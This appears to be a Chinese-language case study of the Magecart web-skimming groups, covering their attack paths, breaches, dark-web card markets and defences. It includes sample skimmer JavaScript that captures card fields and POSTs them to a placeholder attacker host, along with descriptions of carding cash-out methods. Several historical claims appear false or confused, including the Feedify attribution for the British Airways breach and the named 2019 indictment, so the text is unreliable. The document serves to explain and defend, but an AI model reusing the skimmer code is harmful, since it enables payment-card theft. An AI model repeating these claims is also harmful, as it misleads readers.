




## 案例三：Magecart网络窃取集团（2015年至今）

### 一、概述与组织架构

#### 1.1 什么是Magecart

Magecart不是一个单一的黑客组织，而是一个由至少**12个相互独立但技术手法相似的威胁行为者群体**组成的松散联盟。这些群体通过在电商网站中注入恶意JavaScript代码（即"网页窃取器"或"Web Skimmer"），在用户结账时窃取支付卡信息。

这个名字最早由网络安全公司**RiskIQ**在2018年提出，由"**Mage**nto"（他们最初针对的电商平台）和"**Cart**"（购物车）组合而成。尽管命名来源是Magento电商平台，但Magecart的目标早已扩展到所有类型的电商平台和支付页面。

#### 1.2 已识别的子组织

安全研究人员通过技术分析和基础设施关联，已识别出至少12个不同的Magecart子组织：

| 子组织 | 别名/特征 | 主要目标区域 | 活跃时间 |
|--------|-----------|-------------|----------|
| Group 1 | MoneyTaker | 俄罗斯、东欧银行 | 2015-2018 |
| Group 2 | — | 全球电商 | 2016至今 |
| Group 3 | APT-18 / Wolf Group | 欧美电商、零售 | 2015至今 |
| Group 4 | — | 大型企业（如British Airways） | 2017至今 |
| Group 5 | — | 供应链攻击 | 2016至今 |
| Group 6 | — | 亚太地区 | 2017至今 |
| Group 7 | — | 中小电商 | 2018至今 |
| Group 8 | — | 全球范围 | 2018至今 |
| Group 9 | — | 特定行业定制 | 2019至今 |
| Group 10 | — | 全球电商 | 2019至今 |
| Group 11 | — | Magento平台 | 2017至今 |
| Group 12 | — | 新兴攻击技术 | 2020至今 |

#### 1.3 运营规模

截至2024年，Magecart相关活动已：

- **影响网站数量**：超过**100万个**网站被检测到注入恶意脚本
- **窃取卡数据量**：累计**数亿张**支付卡信息被盗
- **年度新增受害者**：仅2023年就有超过**10万个**网站被检测到Magecart活动
- **经济损失**：估计每年造成数十亿美元的欺诈损失



### 二、攻击技术深度剖析

#### 2.1 攻击面分析

Magecart的攻击路径可分为三个主要方向，每个方向有不同的技术难度和效果：

**路径一：直接入侵电商网站服务器**

这是最传统也是最直接的方式。攻击者通过以下手段获取网站服务器的访问权限：

1. **SQL注入**：利用Magento等CMS系统的已知或未公开漏洞，获取数据库访问权限
2. **远程代码执行（RCE）**：利用Web应用漏洞在服务器上执行任意代码
3. **弱凭证爆破**：针对后台管理面板（如Magento Admin）进行暴力破解
4. **已知漏洞利用**：如Magento的SUPEE补丁未安装导致的已知漏洞

一旦获取服务器权限，攻击者会在支付页面（checkout page）或订单确认页面注入恶意脚本。

**路径二：供应链攻击（最高效）**

这是Magecart近年来最偏爱的方式，因为一次入侵可以同时影响数千个网站：

1. **第三方JavaScript库**：入侵流行的前端库或服务提供商（如analytics、chat、payment工具），在合法库中嵌入窃取代码
2. **CDN投毒**：篡改公共CDN上托管的JavaScript文件
3. **npm/包管理器污染**：在流行的npm包中植入恶意代码
4. **SaaS平台入侵**：攻破SaaS服务商（如聊天插件、分析工具），通过其分发机制自动感染所有客户网站

**路径三：恶意广告注入（AdInject）**

通过广告网络的漏洞或恶意广告商，将窃取代码伪装为合法广告脚本注入到目标网站中。这种方式隐蔽性极强，因为广告脚本本身就有权访问DOM。

#### 2.2 窃取代码的技术实现

Magecart窃取器的代码演进经历了多个阶段，从简单到高度复杂：

**阶段一：原始iframe注入（2015-2016）**

最早的Magecart脚本非常简单——在支付页面创建一个透明的iframe，覆盖在真实的支付表单上方，用户输入的数据直接发送到攻击者服务器：

```javascript
// 极简版窃取器（已脱敏，仅供教学）
var iframe = document.createElement('iframe');
iframe.src = 'https://attacker-domain[.]com/collect';
iframe.style.cssText = 'position:fixed;top:0;left:0;width:100%;height:100%;opacity:0;z-index:9999';
document.body.appendChild(iframe);
```

**阶段二：DOM事件监听（2016-2017）**

进化为监听表单提交事件，捕获支付表单中所有字段的数据：

```javascript
// DOM事件监听版窃取器（已脱敏）
document.addEventListener('submit', function(e) {
    var form = e.target;
    var data = {};
    // 通过CSS选择器或name属性定位字段
    var fields = ['cc-number', 'cc-exp', 'cc-csc', 'cardholder-name'];
    fields.forEach(function(fieldId) {
        var el = form.querySelector('[name*="' + fieldId + '"]');
        if (el) data[fieldId] = el.value;
    });
    // 加密后外传
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://attacker-c2[.]com/v1/submit');
    xhr.send(JSON.stringify(data));
});
```

**阶段三：高级混淆与反检测（2018至今）**

现代Magecart脚本具备以下高级特性：

1. **代码混淆**：使用多层混淆（变量名替换、控制流扁平化、字符串编码）
2. **检测逃避**：检测是否在真实用户浏览器中运行（排除安全研究人员的检测环境）
3. **条件触发**：仅在检测到信用卡号格式（如Visa的4开头16位数字）时才激活窃取
4. **数据加密**：在传输前对窃取的数据进行加密
5. **间歇性外传**：不是立即发送，而是缓存数据并间歇性外传以规避检测
6. **伪造域名**：注册与合法服务高度相似的域名（typosquatting）

```javascript
典型混淆后的Magecart脚本特征：
├── 使用eval()执行加密的代码块
├── 动态生成DOM元素以避免静态分析
├── 检测window.__selenium/__webdriver等自动化测试环境
├── 使用Web Crypto API加密数据后再传输
└── 仅在payment/checkout相关页面激活
```

#### 2.3 数据外传与C2架构



**C2（Command & Control）服务器的典型特征：**

- 使用Cloudflare等CDN服务隐藏真实IP
- 域名注册使用被盗身份或虚假信息
- 多层重定向：数据先发到中转站，再转发到最终存储服务器
- 使用HTTPS加密传输，但证书通常为免费的Let's Encrypt证书
- 部分高级C2使用Tor隐藏服务作为最终汇聚点

### 三、重大事件复盘

#### 3.1 British Airways事件（2018年9月）

**事件概况：**

- **时间线**：2018年8月21日至9月5日（持续约15天）
- **受影响系统**：官方网站和移动应用的支付页面
- **被窃数据**：约**38万笔**交易的支付卡信息（卡号、CVV、有效期、持卡人姓名）
- **攻击入口**：通过第三方JavaScript供应商**Feedify**（后更名为Sentry）的脚本注入
- **攻击者**：被归类为Magecart Group 4

**技术细节：**

攻击者入侵了Feedify的服务器，在其合法的JavaScript库中嵌入了Magecart窃取代码。由于Feedify的脚本被British Airways用于用户行为分析，该脚本在支付页面加载时自动执行。脚本监听了所有表单字段的变化，包括信用卡号、CVV、有效期和持卡人姓名，并将数据加密发送到攻击者控制的服务器。

**后果：**

- 英国信息专员办公室（ICO）开出了**£2000万（约2600万美元）**的罚款——这是GDPR实施以来最大的罚款之一
- British Airways面临集体诉讼，索赔金额高达**数亿英镑**
- 品牌声誉严重受损
- 支付卡网络（Visa/Mastercard）对British Airways征收了额外的欺诈损失费用

#### 3.2 Ticketmaster事件（2018年6月）

**事件概况：**

- **时间线**：2018年2月开始入侵，6月被发现
- **受影响范围**：英国及全球多个Ticketmaster站点
- **被窃数据**：约**8万张**支付卡信息
- **攻击入口**：第三方客服聊天插件供应商**Inbenta Technologies**

**技术细节：**

攻击者首先入侵了Inbenta的服务器，然后在Inbenta提供的JavaScript聊天组件中注入了Magecart代码。该组件被Ticketmaster部署在支付页面上。更严重的是，Inbenta还为其他多个客户提供服务，潜在影响范围远超Ticketmaster。

**关键启示：**

Ticketmaster事件是供应链攻击的教科书案例——Ticketmaster本身可能做了大量安全防护，但一个第三方聊天插件的安全漏洞就绕过了所有防护。

#### 3.3 Newegg事件（2018年8月-9月）

**事件概况：**

- **被窃数据**：约**5000张**支付卡/月
- **持续时间**：约一个月（8月14日至9月18日）
- **攻击入口**：直接入侵Newegg服务器

**技术细节：**

与其他Magecart攻击不同，Newegg事件是直接入侵。攻击者在Newegg的支付页面上注入了一个名为`payment-new-3.js`的恶意脚本，该脚本伪装为合法的支付处理脚本。脚本监听支付表单的提交事件，捕获所有卡数据后通过伪造的Newegg子域名（`www.newegganalytics[.]com`）外传。

#### 3.4 其他重大事件

**Forbes（2018年8月）**

- 影响约**5000张**支付卡
- 攻击者入侵了Forbes网站的支付页面
- 持续约一周

**VisionDirect（2018年12月）**

- 英国在线眼镜零售商
- **影响**：约3000张支付卡被窃
- **攻击入口**：通过Google Tag Manager账户被入侵

**Mytheresa（2018年12月）**

- 高端时装电商
- 攻击者入侵了支付页面
- 数据通过伪造域名外传

**Pura Vida Bracelets（2019年5月）**

- 时尚饰品品牌
- 攻击持续约一个月
- 约**3万张**支付卡受影响

**Kenneth Cole（2019年1月）**

- 知名时尚品牌
- Magecart注入影响其在线商店

**Eddie Bauer（2018年11月）**

- 运动服饰品牌
- 美国和加拿大门店均受影响



### 四、变现路径与暗网经济

#### 4.1 支付卡数据的价值链

Magecart窃取的支付卡数据在暗网形成了一条完整的产业链：

```text
窃取 → 验证 → 分级 → 存储 → 销售 → 使用 → 现金
  │       │       │       │       │       │       │
  │       │       │       │       │       │       └── ATM取现/购物套现
  │       │       │       │       │       └── 在线欺诈/伪卡制造
  │       │       │       │       └── 暗网卡市场/Joker's Stash等
  │       │       │       └── 加密存储在C2服务器
  │       │       └── 按国家/银行/类型分级定价
  │       └── Luhn算法验证+在线余额查询
  └── Magecart窃取器捕获
```

#### 4.2 暗网定价体系

支付卡数据在暗网的售价取决于多个因素：

| 数据类型 | 包含信息 | 价格范围（美元） | 说明 |
|----------|---------|----------------|------|
| CVV卡（Fullz） | 卡号+CVV+有效期+持卡人姓名 | $5-$110 | 最常见的交易形式 |
| Fullz+ | Fullz+地址+电话+SSN | $20-$150 | 用于身份欺诈 |
| Track 1/2 | 磁条数据 | $20-$120 | 用于制造伪卡 |
| 企业卡 | 公司支付卡 | $15-$100 | 限额更高 |
| 高限额卡 | 信用额度>$10K | $50-$300 | 最高价值 |

**定价因素：**

- **国家**：美国卡最便宜（数量最多），欧洲卡因EMV芯片保护而较贵，亚洲卡（特别是日本、韩国）价格最高
- **银行**：大银行的卡更受欢迎（更难被冻结）
- **卡类型**：白金卡/黑卡 > 普通信用卡 > 借记卡
- **CVV可用性**：包含CVV的"Fullz"比仅含卡号的价格高3-5倍
- **新鲜度**：刚窃取的数据比老旧数据贵2-3倍
- **有效性**：经过验证有效的卡比未验证的贵2倍

#### 4.3 暗网卡市场生态

**Joker's Stash（已关闭）**

曾是全球最大的暗网信用卡市场，2021年2月宣布永久关闭。其运营特点包括：

- 接受加密货币支付（比特币、以太坊）
- 提供"验证室"（Validation Room）：买家可在线验证卡片有效性
- 支持批量购买折扣
- 提供退款保证
- 每天处理数百万张卡数据

**其他主要暗网卡市场：**

- **CvvShop.to**：活跃至今的卡市场
- **BidenCash**：2022年出现，多次公开泄露大量卡数据
- **Yale Lodge**：新兴卡市场
- **Various Telegram channels**：越来越多的卡交易转移到Telegram群组

#### 4.4 购买者如何使用窃取的卡数据

1. **在线欺诈**：在电商网站使用窃取的卡信息购物，收货到空地址或转运点
2. **伪卡制造**：将Track 1/2数据写入空白磁条卡，在ATM或实体店使用
3. **充值套现**：为预付卡、游戏钱包、加密货币交易所充值后提现
4. **账单服务**：为他人提供"账单"服务（使用窃取的卡支付合法账单），收取30-50%手续费
5. **身份欺诈**：利用Fullz信息申请新的信用卡或贷款

### 五、执法行动与司法回应

#### 5.1 重大执法行动

**Operation Chameleon（2019年）**

- 多国联合行动，针对Magecart相关犯罪
- 荷兰、德国、英国、罗马尼亚等国参与
- 逮捕多名嫌疑人

**英国NCA行动（2020-2021年）**

- 英国国家犯罪调查局（NCA）多次逮捕Magecart嫌疑人
- 2020年8月，一名英国男子因涉嫌与Magecart相关活动被捕
- 涉及British Airways和Ticketmaster事件的调查

**美国DOJ起诉（2019年10月）**

- 美国司法部起诉了一名摩尔多瓦男子**Maxim Senakh**
- 涉嫌开发和运营Magecart恶意软件
- 被控电脑欺诈和滥用等多项罪名

**Europol协调行动（2021年）**

- 欧洲刑警组织协调的多国行动
- 关闭了多个Magecart相关的C2服务器
- 逮捕了多名嫌疑人

#### 5.2 执法面临的挑战

1. **跨境管辖**：攻击者、服务器、受害者分布在全球不同国家
2. **匿名化技术**：VPN、Tor、加密货币使追踪极其困难
3. **证据保全**：暗网数据易销毁，需要实时监控和快速响应
4. **法律差异**：各国对网络犯罪的定义和处罚力度不同
5. **组织去中心化**：松散联盟结构意味着打击一个小组无法消除整体威胁

### 六、防御体系与最佳实践

#### 6.1 技术防御措施

**子资源完整性（SRI）**

SRI是防御供应链攻击的第一道防线。通过为外部脚本添加哈希校验，确保脚本内容未被篡改：

```html
<!-- 未使用SRI：脚本可能被篡改 -->
<script src="https://cdn.example.com/analytics.js"></script>

<!-- 使用SRI：脚本必须匹配哈希值 -->
<script src="https://cdn.example.com/analytics.js"
        integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8w"
        crossorigin="anonymous"></script>
```

**内容安全策略（CSP）**

CSP可以限制页面只能加载来自特定来源的脚本，有效阻止外部恶意脚本的执行：

```text
Content-Security-Policy: 
    default-src 'self'; 
    script-src 'self' cdn.trusted-vendor.com; 
    connect-src 'self' api.yourdomain.com;
    style-src 'self' 'unsafe-inline';
    img-src 'self' data: https:;
    frame-ancestors 'none';
```

**第三方脚本监控**

部署专门的第三方脚本监控工具，实时检测脚本行为变化：

- **Jscrambler Webpage Integrity**：监控网页脚本变化
- **Akamai Page Integrity Manager**：实时检测恶意脚本注入
- **SourceDefense**：第三方脚本隔离和监控
- **ProtectScripts**：开源的第三方脚本审计工具

#### 6.2 运营防御措施

**定期安全审计**

- 对所有第三方脚本进行定期安全审查
- 监控JavaScript文件的哈希变化
- 审计CDN供应商的安全实践
- 检查npm/包管理器的依赖链

**事件响应计划**

- 建立针对Magecart类型攻击的专项响应流程
- 准备支付页面的应急切换方案
- 与支付卡网络建立快速响应通道
- 定期进行红队演练

**PCI DSS合规**

- 定期进行PCI DSS合规审计
- 实施最小权限原则
- 加密存储所有敏感数据
- 部署入侵检测系统（IDS）

#### 6.3 企业防御架构



### 七、攻击者的教训与启示

#### 7.1 为什么Magecart能持续成功

1. **供应链信任链脆弱**：电商网站信任第三方脚本供应商，而这些供应商的安全标准往往不达标
2. **检测困难**：恶意脚本混在合法脚本中，传统安全工具难以区分
3. **利润丰厚**：窃取的卡数据有稳定的黑市需求
4. **跨境执法困难**：攻击者在不同国家，受害者也在不同国家
5. **责任分散**：电商、支付商、第三方供应商之间的安全责任边界模糊

#### 7.2 对网络安全行业的启示

1. **零信任架构的重要性**：即使是"信任"的第三方脚本也需要验证
2. **供应链安全**：必须将第三方脚本纳入安全审计范围
3. **实时监控**：静态安全检查不够，需要实时行为监控
4. **行业协作**：需要电商、支付卡网络、安全公司之间的信息共享
5. **消费者教育**：虽然主要责任在商家，但消费者也需要了解风险

#### 7.3 案例总结

Magecart是网络犯罪史上最成功的攻击战役之一。它展示了：

- **攻击的持续性**：从2015年至今从未停止，且持续进化
- **供应链攻击的威力**：一个第三方供应商的漏洞可以影响数千个网站
- **暗网经济的成熟**：从窃取到变现的完整产业链
- **防御的多层次性**：没有单一银弹，需要技术、运营、法律多层面的综合防御

对于想要了解网络犯罪经济的读者来说，Magecart提供了一个完整的案例——从技术实现、组织架构、变现路径到执法回应，涵盖了现代网络犯罪的方方面面。对于安全从业者来说，Magecart是一个持续的提醒：在Web生态中，信任链的每一环都可能成为攻击的入口。

---

**延伸阅读：**

- RiskIQ：[The Magecart Threat](https://www.riskiq.com/blog/labs/research/magecart/)
- British Airways ICO罚款详情
- PCI SSC关于Web Skimming的最新指南
- Europol关于网络支付欺诈的年度报告
